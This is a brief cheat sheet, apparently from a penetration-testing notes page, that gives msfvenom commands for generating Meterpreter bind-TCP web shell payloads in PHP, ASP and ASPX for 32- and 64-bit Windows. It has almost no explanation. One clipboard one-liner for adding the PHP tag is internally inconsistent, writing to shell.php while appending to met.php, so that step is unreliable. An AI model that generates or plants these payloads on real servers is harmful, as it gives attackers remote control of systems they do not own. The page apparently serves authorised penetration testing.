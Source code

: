# Bind Shells

## PHP

PHP meterpreter bind callback shell

```
$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x86.asp
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x86.aspx
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x64.aspx
```